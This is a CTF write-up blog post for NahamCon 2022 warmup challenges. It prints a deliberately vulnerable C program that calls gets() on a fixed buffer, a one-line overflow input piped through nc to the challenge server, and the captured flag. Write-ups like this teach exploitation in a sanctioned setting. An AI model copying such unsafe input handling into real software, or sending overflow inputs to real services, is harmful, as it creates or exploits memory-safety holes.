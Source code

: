 ```yaml
---
title: NahamCon CTF 2022 - Warmup Writeup Part 2
published: true
---
```


Part 2 of the warmup challenges for NahamCon CTF 2022.  Part 1 is [here](https://ruddles.github.io/NahamCon-CTF-2022-Warmup-1)

# Crash Override

> Remember, hacking is more than just a crime. It's a survival trait.
> 
> Attachments: crash_override.c, Makefile, crash_override
> 
> Connect to `nc challenge.nahamcon.com 30637`

To start off we can download the 3 files using wget

```
wget -o crash_override.c https://ctf.nahamcon.com/files/f9dc325add89e0bd3302d94d0f370dca/crash_override.c?token=<my-token>
wget -o Makefile https://ctf.nahamcon.com/files/f9dc325add89e0bd3302d94d0f370dca/Makefile?token=<my-token>
wget -o crash_override https://ctf.nahamcon.com/files/f9dc325add89e0bd3302d94d0f370dca/crash_override?token=<my-token>
```

Opening up the C file reveals the following code:

```c
#include <stdio.h>
#include <stdlib.h>
#include <sys/stat.h>
#include <signal.h>

void win(int sig) {
    FILE *fp = NULL;
    char *flag = NULL;
    struct stat sbuf;

    if ((fp = fopen("flag.txt", "r")) == NULL) {
        puts("Failed to open the flag. If this is on the challenge server, contact an admin.");
        exit(EXIT_FAILURE);
    }

    if (fstat(fileno(fp), &sbuf)) {
        puts("Failed to get flag.txt file status. If this is on the challenge server, contact an admin.");
        exit(EXIT_FAILURE);
    }

    flag = calloc(sbuf.st_size + 1, sizeof(char));
    if (!flag) {
        puts("Failed to allocate memory.");
        exit(EXIT_FAILURE);
    }

    fread(flag, sizeof(char), sbuf.st_size, fp);
    puts(flag);

    free(flag);

    exit(EXIT_SUCCESS);
}

int main(void) {
    char buffer[2048];

    setbuf(stdin, NULL);
    setbuf(stdout, NULL);

    signal(SIGSEGV, win);

    puts("HACK THE PLANET!!!!!!");
    gets(buffer);

    return 0;
}
```

Reading the code, the line `signal(SIGSEGV, win);` means if we can cause a segmentation fault (i.e. cause the application to access memory it isn't allowed to) then the `win` function will run and print out the flag.

The easiest way to cause a seg fault is to cause a buffer overflow, which is where we attempt to stuff more data into a memory location than the application is expecting.

Do you see it?  Look at the first and second-to-last lines in main.  `char buffer[2048];` is setting up a buffer with 2048 bytes of space.  Then `gets(buffer);` will take whatever is in stdin and stuff it into the buffer.  So what happens if stdin contains more than 2048 bytes of data?  Boom.  That's what.  Never use gets.  Hell, even the [bugs section on the man page says don't use it](https://linux.die.net/man/3/gets).

To blow this popsicle stand and get the flag we just need to connect to the server and give it a big load of data on stdin.  We're not going to type all those chars, this is an expensive keyboard, we'll use python for that.  Let's give it 3000 "A" chars for good measure.

```
python3 -c 'print("A" * 3000)' | nc challenge.nahamcon.com 30637
```

Running that and boom, the flag is dumped. `flag{de8b6655b538a0bf567b79a14f2669f6}`

# Read The Rules

> Please follow the rules for this CTF!

How was this not the most solved?  Anyway, I digress.  Go to the rules page at https://ctf.nahamcon.com/rules, view source and Ctrl-f for "flag{" and would you look at that...

![screenshot of the source]({{ site.url }}/assets/post-images/nahamcon-warmup/read-the-rules-source.png)

# Technical Support

> Want to join the party of GIFs, memes and emoji spam? Or just want to ask a question for technical support regarding any challenges in the CTF? Join us in the Discord -- you might just find a flag in the #ctf-help channel!
> 
>[Join the Discord!](https://discord.com/invite/ucCz7uh)

Join the Discord server, then go to the #ctf-help channel and look at the topic.  Then sit in chat and watch people completely miss the topic and type `!flag`

![screenshot of discord topic]({{ site.url }}/assets/post-images/nahamcon-warmup/technical-support-topic.png)